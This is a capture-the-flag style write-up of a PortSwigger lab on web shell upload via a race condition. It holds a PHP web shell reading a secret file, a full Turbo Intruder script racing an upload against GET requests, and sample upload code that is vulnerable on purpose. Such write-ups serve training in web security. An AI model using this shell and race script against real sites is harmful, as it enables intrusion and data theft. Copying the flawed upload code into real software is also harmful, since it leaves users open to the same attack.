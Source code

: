 # Web shell upload via race condition

## Description

[This lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition) contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them. 

## Reproduction and proof of concept

1. Log in and upload an image as your avatar, then go back to your account page.
2. In Burp, go to **Proxy -> HTTP history** and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>`.
3. On your system, create a file called `exploit.php` containing a script for fetching the contents of Carlos's secret. For example:

```text
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
    
4. Log in and attempt to upload the script as your avatar. Observe that the server appears to successfully prevent you from uploading files that aren't images, even if you try using techniques from previous labs.
5. If you haven't already, add the [Turbo Intruder extension](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988) to Burp from the BApp store. If you have it, load it.

![File upload](../../_static/images/upload9.png)

6. Right-click on the `POST /my-account/avatar` request that was used to submit the file upload and select **Extensions -> Turbo Intruder -> Send to turbo intruder**. The Turbo Intruder window opens.
7. Copy and paste the following script template into Turbo Intruder's Python editor:

```text
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''
POST /my-account/avatar HTTP/1.1
Host: 0ac700210460078cc0ad547c00b600c7.web-security-academy.net
Cookie: session=qHFu2BuxBt2u0KX9crXaq0ULzU3Ao0nP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------20457027561279133819339941172
Content-Length: 538
Origin: https://0ac700210460078cc0ad547c00b600c7.web-security-academy.net
Referer: https://0ac700210460078cc0ad547c00b600c7.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------20457027561279133819339941172
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------20457027561279133819339941172
Content-Disposition: form-data; name="user"

wiener
-----------------------------20457027561279133819339941172
Content-Disposition: form-data; name="csrf"

p6xSMEVwv95TOguixPFQoQ0DijZwIyod
-----------------------------20457027561279133819339941172--

-----------------------------215000247714924885564136028193
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------215000247714924885564136028193
Content-Disposition: form-data; name="user"

wiener
-----------------------------215000247714924885564136028193
Content-Disposition: form-data; name="csrf"

p6xSMEVwv95TOguixPFQoQ0DijZwIyod
-----------------------------215000247714924885564136028193--
'''

    request2 = '''
GET /files/avatars/exploit.php HTTP/1.1
Host: 0ac700210460078cc0ad547c00b600c7.web-security-academy.net
Cookie: session=qHFu2BuxBt2u0KX9crXaq0ULzU3Ao0nP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ac700210460078cc0ad547c00b600c7.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)

```

8. In the script, replace `request1` is the entire `POST /my-account/avatar` request containing the `exploit.php` file. You can copy and paste this from the top of the Turbo Intruder window.
9. `request2` is a `GET` request for fetching your uploaded PHP file. The simplest way to do this is to copy the `GET /files/avatars/<YOUR-IMAGE>` request from your proxy history, then change the filename in the path to `exploit.php`. And add an empty line before the closing `'''` to get non-null responses for the `GET`.
10. At the bottom of the Turbo Intruder window, click **Attack**. This script will submit a single `POST` request to upload your `exploit.php` file, instantly followed by 5 `GET` requests to `/files/avatars/exploit.php`.

![File upload](../../_static/images/upload10.png)

11. In the results list, notice that some `GET` requests received a 200 response containing Carlos's secret. These requests hit the server after the PHP file was uploaded, but before it failed validation and was deleted.
12. Submit the secret to solve the lab.

## Exploitability

An attacker will need to log in; upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`; and then enter this secret using the button provided in the lab banner.  

The vulnerable code that introduces this race condition:

```text
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?> 
```

The uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it is possible to execute the file in the small time-window before it is removed.

Due to the generous time window for this race condition, it is possible to solve this lab by manually sending two requests in quick succession using Burp Repeater. The solution described here teaches a practical approach for exploiting similar vulnerabilities in the wild, where the window may only be a few milliseconds. 
